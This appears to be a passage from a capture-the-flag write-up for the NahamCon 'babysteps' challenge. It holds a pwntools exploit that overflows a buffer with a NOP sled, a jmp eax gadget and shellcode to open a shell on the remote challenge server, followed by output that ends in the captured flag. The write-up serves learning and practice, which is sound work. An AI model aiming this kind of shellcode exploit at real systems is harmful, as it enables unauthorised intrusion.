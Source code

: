The relevant gadget is ```0x08049545 : jmp eax```.

Let's solve it using
[pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following
[code](./exp_babysteps.py):  
```python  
from pwn import *

elf = ELF('./babysteps')  
libc = elf.libc

if args.REMOTE:  
   p = remote('challenge.nahamcon.com', 31879)  
else:  
   p = process(elf.path)

# payload buffer  
payload = b"\x90"*28  
payload += p32(0x8049545)  
payload += asm(shellcraft.sh())  
payload += asm(shellcraft.exit())

p.recvuntil('?')  
p.sendline(payload)  
p.interactive()  
```

Run it:  
```python  
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babysteps]  
└──╼ $ python3 exp_babysteps.py REMOTE  
[*] '/nahamcon/binary_exploitation/babysteps/babysteps'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x8048000)  
   RWX:      Has RWX segments  
[*] '/usr/lib32/libc-2.31.so'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to challenge.nahamcon.com on port 31879: Done  
[*] Switching to interactive mode  
(literally?)

First, what is your baby name?  
$ hostname  
babysteps-cff24dc585091927-688f7f999b-4bfwf  
$ ls  
babysteps  
bin  
dev  
etc  
flag.txt  
lib  
lib32  
lib64  
libx32  
usr  
$ cat flag.txt  
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}  
```

